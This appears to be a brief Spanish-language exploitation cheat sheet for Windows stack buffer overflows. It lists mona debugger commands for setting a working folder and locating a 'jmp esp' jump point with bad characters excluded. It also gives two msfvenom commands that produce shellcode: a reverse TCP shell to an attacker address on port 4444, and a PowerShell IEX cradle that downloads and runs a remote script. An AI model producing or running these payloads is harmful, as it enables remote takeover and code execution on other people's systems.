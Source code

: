 ## MONA
### Configurar carpeta de trabajo
!mona -set workingfolder C:\Users\win7bits\Desktop\%p

### ENCONTRAR EL PUNTO DE SALTO
!mona jmp -r esp -cpb \x07\x2e\xa0\x00"


## SHELLCODE
# CMD
msfvenom -p windows/shell_reverse_tcp lhost=192.168.0.105 lport=4444 EXITFUNC=thread -a x86 --platform windows -b "\x00" -f c
# POWERSHELL
msfvenom -p windows/exec CMD="powershell IEX(New-Object Net.WebClient).downloadString('http://192.168.0.105:8000/PS.ps1')" lhost=192.168.0.105 lport=4444 EXITFUNC=thread -a x86 --platform windows -b "\x00" -f c


